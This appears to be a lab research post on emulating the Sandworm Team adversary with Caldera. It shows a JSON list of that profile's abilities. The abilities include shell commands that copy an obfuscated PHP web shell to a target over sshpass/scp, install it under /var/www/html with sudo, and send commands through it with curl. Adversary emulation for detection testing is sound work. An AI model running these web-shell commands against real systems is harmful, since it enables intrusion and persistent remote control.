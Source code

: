 ```yaml
---
title: "Adversary: Sandworm Team (G0034)"
date: 2024-11-12 16:00:00 +0900
categories: [Virtualbox, Elasticsearch, Fleet]
tags: [research, networking]     # TAG names should always 
---
```


## Sequence of actions

```bash
┌──(caldera-env)─(attacker㉿kali)-[~/…/caldera/plugins/emu/data]
└─$ jq '.[] | select(.adversary == "SandWorm")' commands-output.json
```

```json
jq '.[] | select(.adversary == "Sandworm Team (G0034)")' commands-output.json
{
  "adversary": "Sandworm Team (G0034)",
  "abilities": [
    {
      "ability_id": "60c4ddd6-2ce0-4f5c-8ddb-c5eccd744686",
      "platform": "linux",
      "commands": {
        "sh": "chmod a+r obfuscated_webShell.php;\nsshpass -p #{initial.user.password} scp ./obfuscated_webShell.php #{initial.user.name}@#{initial.target.host}:/tmp/search.php\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "6249ff61-75ec-4ead-8ca2-e8d9fbbc225a",
      "platform": "linux",
      "commands": {
        "sh": "sshpass -p #{initial.user.password} ssh #{initial.user.name}@#{initial.target.host} \"sudo mv /tmp/search.php /var/www/html/\";\n"
      },
      "privilege": "Unknown",
      "tactic": "persistence",
      "technique": "Server Software Component: Web Shell",
      "attack_id": "T1505.003"
    },
    {
      "ability_id": "06dd8117-caaf-4535-a70f-cc31268fd9b8",
      "platform": "linux",
      "commands": {
        "sh": "curl --insecure \"https://#{initial.target.host}/search.php?cmd=whoami\" 2>/dev/null\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Owner/User Discovery",
      "attack_id": "T1033"
    },
    {
      "ability_id": "75efc0b8-eafa-4300-8e7b-5e56179944e8",
      "platform": "linux",
      "commands": {
        "sh": "curl --insecure \"https://#{initial.target.host}/search.php?cmd=uname+-a\" 2>/dev/null\n"
      },
```